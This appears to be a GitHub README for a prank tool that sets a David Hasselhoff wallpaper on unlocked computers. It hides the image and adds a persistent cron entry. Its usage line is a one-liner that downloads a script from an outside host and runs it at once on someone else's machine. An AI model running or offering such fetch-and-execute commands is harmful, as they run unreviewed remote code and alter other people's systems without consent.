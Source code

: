 # HassleTheHoff

[Hasslehoff](https://github.com/ps1337/HassleTheHoff/blob/master/res/notHasslehoff.jpg?raw=true) people failing to lock their computers:

- Download a fresh new Hasslehoff
- Hide it
- Set it as wallpaper
- Create a Cron job for the task

# Dependencies:
- `wget`/`curl`
- A supported desktop environment
- (Cron)
- ?

# Usage

```
sh -c "$(wget -O- hth.i-m.cool)"
```

# Files touched

- `$HOME/.config/autostart/.tmp`: Hasslehoff image
- `crontab` of user: Entry added at bottom
